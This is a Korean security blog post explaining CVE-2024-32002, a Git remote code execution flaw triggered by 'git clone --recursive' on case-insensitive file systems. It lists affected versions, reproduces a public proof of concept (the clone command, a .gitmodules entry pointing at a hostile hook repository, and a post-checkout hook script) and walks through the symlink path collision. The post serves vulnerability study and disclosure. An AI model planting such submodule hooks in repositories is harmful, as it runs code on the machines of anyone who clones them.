 ```yaml
---
title: "CVE-2024-32002 Exploiting Git RCE via git clone"
description: "git clone 명령만으로 RCE 취약점이 발생한다..?"
author: bde574786
date: 2024-10-27 21:55:00 +0900
categories: [Recent Security Trends]
tags: [빡공팟, 콘테스트 네뷸라, 최근 보안 이슈, CVE, Git]
image: 
---
```


## **Details**
Git의 git clone 기능에는 저장소의 **하위 모듈(submodule)**을 재귀적으로 함께 클론하는 `--recursive`  옵션이 포함되어 있다. 또한, Git은 **심볼릭 링크(Symbolic Link)**를 지원하여, 이를 통해 저장소의 다른 부분을 참조할 수 있다.
이 취약점은 대소문자를 구분하지 않는 파일 시스템 (Windows, MacOS)에서 발생한다.


## **Affected Versions**
- v2.45.0
- v2.44.0
- <= v2.43.3
- <= v2.42.1
- v2.41.0
- <= v2.40.1
- <= v2.39.3

## **PoC**
⚠️ Warning: 해당 PoC 실행 시 반드시 허가받은 시스템에서만 수행해야 한다.

환경 구축의 제한사항과 편의를 고려하여 이미 만들어진 PoC를 테스트하였다.

> [https://github.com/amalmurali47/git_rce?tab=readme-ov-file](https://github.com/amalmurali47/git_rce?tab=readme-ov-file)

<br>
- Git을 사용해 git_rce라는 이름의 원격 Repository를 클론하는 동시에, 서브모듈을 함께 클론한다.
```bash
git clone --recursive git@github.com:amalmurali47/git_rce.git
```

<br>
- 아래 파일은 Git Repository에서 서브모듈을 추가할 때 사용되는 .gitmodules 구성 파일이다.
- Git이 서브모듈을 클론할 때, 현재 로컬 Repository 루트 경로에 A/modules/x 폴더가 생성되며 url에 지정된 원격 Repository의 악성 후크 파일이 A/modules/x에 클론될 것이다.
```bash
[submodule "x/y"]
	path = A/modules/x  # Local path for the submodule
	url = git@github.com:amalmurali47/hook.git  # Remote repository URL
```

<br>
- 위 서브모듈 url은 [https://github.com/amalmurali47/hook](https://github.com/amalmurali47/hook) 저장소를 가리키고 있으며 해당 저장소에는 hook/post-checkout 경로에는 공격자가 의도한 악성 스크립트가 작성되어 있다.
```bash
#!/bin/bash
echo "amal_was_here" > /tmp/pwnd
calc.exe
open -a Calculator.app
```

<br>
Boom..!!<br>
![image.png](assets/img/PoC execution on Windows.png)

<br>
## **How It Works**
- **특수 경로의 심볼릭 링크 설정**
    - 공격자는 .git을 가리키는 심볼릭 링크를 저장소 안에 생성하고, 이 링크의 이름을 a로 설정한다.
    - 서브모듈의 경로는 대소문자를 변형하여 설정되며, 이는 대소문자 구분을 하지 않는 파일 시스템(Windows, Mac)의 취약점을 겨냥한다.
- **서브모듈 경로 충돌 유도**
    - Git은 서브모듈을 A/modules/x 경로에 클론하려고 시도하지만, 대소문자 구분이 없는 파일 시스템에서 A와 a가 동일하게 인식된다.
- **경로 우회로 악성 후크 위치 설정**
    - 결과적으로 Git은 서브모듈의 후크 스크립트를 .git/hooks 아래에 배치하게 된다.
    - 이 후크는 공격자의 명령이 포함되어 사용자의 시스템에서 RCE가 발생하게 된다.
<br>
따라서, 사용자가 단순히 해당 Repository를 클론하기만 해도 공격자가 의도한 악성 코드가 실행될 수 있다.
해당 취약점은 Git의 core.sysmlinks 기능이 활성화된 Windows와 MacOS에 취약하다.

<br>
## **Reference**
[https://github.com/amalmurali47/git_rce](https://github.com/amalmurali47/git_rce)<br>
[https://github.com/git/git/security/advisories/GHSA-8h77-4q3w-gfgv](https://github.com/git/git/security/advisories/GHSA-8h77-4q3w-gfgv)<br>
[https://amalmurali.me/posts/git-rce/](https://amalmurali.me/posts/git-rce/)